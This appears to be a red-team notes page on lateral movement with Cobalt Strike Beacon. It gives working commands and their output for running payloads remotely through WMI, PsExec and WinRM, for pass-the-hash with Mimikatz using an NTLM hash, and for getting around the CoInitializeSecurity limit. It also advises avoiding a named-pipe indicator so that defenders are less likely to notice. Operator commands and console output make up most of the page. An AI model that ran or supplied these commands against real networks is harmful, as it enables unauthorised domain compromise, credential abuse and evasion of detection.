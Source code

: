 
## [[PowerShell Remoting]]
The most straight forward means of using this is to upload a payload to the target system and use WMI to execute it.
``````beacon
beacon> cd \\srv1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv1 C:\Windows\beacon-smb.exe
Started process 536 on srv1

beacon> link srv1
[+] established link to child beacon: 10.10.1.20
``````

## CoInitializeSecurity
Beacon's internal implementation of WMI uses a [Beacon Object File](https://cobaltstrike.com/help-beacon-object-files), executed using the [beacon_inline___execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor function. When a BOF is executed the [CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process.

The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.

An example of that can look like the following:
``````
beacon> make_token EDU\doe Passw0rd1
[+] Impersonated EDU\john

beacon> remote-exec wmi srv2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv2: 5
``````

As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas`, or even `execute-assembly` with a tool such as `SharpWMI`.

``````
beacon> remote-exec wmi srv2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv2: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv2 command="C:\Windows\System32\calc.exe"

[*] Host                           : srv2
[*] Command                        : C:\Windows\System32\calc.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 1312
``````


## [[PsExec]]
The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  

The `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

``````beacon
beacon> jump psexec64 srv1 smb
Started service dd80980 on srv1
[+] established link to child beacon: 10.10.1.20
``````


## [[PowerShell Remoting]]
Get OS Architecture via WINRM and spawn a beacon with SMB listener
``````beacon
beacon> getuid
[*] You are EDU\john

beacon> remote-exec winrm srv1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit

beacon> jump winrm64 srv1 smb
[+] established link to child beacon: 10.10.1.20

``````


## [[Pass-the-Hash]]
### Recommended
To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.

``````beacon
beacon> mimikatz sekurlsa::pth /user:doe /domain:edu.evil.corp /ntlm:4ffd3eabdce2e158d923ddec72de979e

user    : doe
domain    : edu.evil.corp
program    : cmd.exe
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
``````

### Not recommended
Beacon has a dedicated `pth` command which executes Mimikatz in the background.
``````beacon
beacon> pth EDU\doe 4ffd3eabdce2e158d923ddec72de979e

user    : doe
domain    : EDU
program    : C:\Windows\system32\cmd.exe /c echo 1cbe909fe8a > \\.\pipe\16ca6d
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  5540
  |  TID  5976
  |  LSA Process is now R/W
  |  LUID 0 ; 4069467 (00000000:003e185b)
  \_ msv1-0   - data copy @ 0000024DC099D3D0 : OK !
  \_ kerberos - data copy @ 0000024DC1673918
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024DC14503D8 (32) -> null
``````

It passes the token over a named pipe which Beacon then impersonates automatically.
``````beacon
beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
``````